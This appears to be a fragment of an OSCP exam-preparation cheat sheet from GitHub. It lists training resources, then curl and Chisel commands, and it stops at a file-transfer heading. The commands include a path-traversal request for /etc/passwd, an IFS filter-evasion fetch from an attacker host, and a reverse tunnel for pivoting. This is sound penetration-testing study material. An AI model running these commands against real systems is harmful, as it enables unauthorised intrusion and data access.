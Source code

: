 ### Social Media Resources

| Name | URL |
| --- | --- |
| OSCP Guide 01/12 – My Exam Experience | https://www.youtube.com/watch?v=9mrf-WyzkpE&list=PLJnLaWkc9xRgOyupMhNiVFfgvxseWDH5x |
| Rana Khalil | https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/ |
| HackTricks | https://book.hacktricks.xyz/ |
| Hacking Articles | https://www.hackingarticles.in/ |
| IppSec (YouTube) | https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA |
| IppSec.rocks | https://ippsec.rocks/?# |
| 0xdf | https://0xdf.gitlab.io/

## Commands

### Basics

#### curl

```c
curl -v http://<DOMAIN>                                                        // verbose output
curl -X POST http://<DOMAIN>                                                   // use POST method
curl -X PUT http://<DOMAIN>                                                    // use PUT method
curl --path-as-is http://<DOMAIN>/../../../../../../etc/passwd                 // use --path-as-is to handle /../ or /./ in the given URL
curl --proxy http://127.0.0.1:8080                                             // use proxy
curl -F myFile=@<FILE> http://<RHOST>                                          // file upload
curl${IFS}<LHOST>/<FILE>                                                       // Internal Field Separator (IFS) example
```

#### Chisel

##### Reverse Pivot

```c
./chisel server -p 9002 -reverse -v
./chisel client <LHOST>:9002 R:3000:127.0.0.1:3000
```

##### SOCKS5 / Proxychains Configuration

```c
./chisel server -p 9002 -reverse -v
./chisel client <LHOST>:9002 R:socks
```

#### File Transfer

##### Certutil
